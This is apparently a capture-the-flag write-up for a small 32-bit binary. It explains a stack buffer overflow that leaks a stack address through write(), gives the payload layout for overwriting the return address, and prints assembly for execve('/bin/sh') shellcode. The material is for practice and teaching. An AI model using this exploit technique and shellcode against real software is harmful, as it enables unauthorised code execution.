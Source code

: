 1. 0x14 bytes for the buffer
2. 0x4 bytes for the return address
3. 0x4 stack address, pushed in the first instruction.

Overwriting the return address with `0x08048087` will lead to a leak with the write(1, 0xffc99a3c, 0x14).
Reading the first four bytes we got the `stack pointer + 4 = 0xffc99a40`, now we can exploit it just writing `20 trash bytes + esp + 4 + 0x14 + shellcode`.
But `esp == leaked address - 4` so finally we must write `A*20 + bytes(leaked_addr+0x14) + shellcode`.

Pay attention the shell code must be at most 36 bytes for the read().

So below the steps we need to exploits it:

1. read()  - write 20 trash bytes + 0x08048087, at this point another write() is issued.
2. write() - store the first 4 bytes, let's call them as stack-pointer.
3. read()  - write 20-bytes-shellcode + (stack-pointer + 0x14) + shellcode read on the point 2.

Notice that each time another write is triggered the stack pointer increase by 20 bytes and the stack memory decrease since adding means release memory,
For this It is possible to load bigger shellcodes just looping over the first and second step and adjusting the shellcode with for example a jmp +4 after the first
16 bytes loaded.

```
esp             ==> shellcode + 0           == instruction
esp + 0x10      ==> shellcode + 0x10        == jmp 4
esp + 0x14      ==> ret address overwrite
esp + 0x18      ==> shellcode + 0x14        == instruction
...
...
...
```

***Important***

At the point two the stack would be as below:

```
esp (leaked address - 4) ===> 0x14 bytes
esp + 0x14               ===> shellcode address ( leaked address + 0x14)
esp + 0x14 + 0x4         ===> shellcode
```

#### Shellcode

36 bytes for the shellcode are enough, we just need two system calls.

Below is shown the shellcode:

```
'push 0xb\n'        # execve syscall number
'pop eax\n'         # store in eax
'push 0\n'
'push 0x68732f2f\n'
'push 0x6e69622f\n' # push /bin/sh\0
'mov ebx,esp\n'     # store the string address on ebx
'mov ecx, 0\n'      # reset ecx
'mov edx, 0\n'      # reset edx
'int 0x80\n',
```

This shellcode was taken from [here](https://www.exploit-db.com/exploits/44321) and adapted.

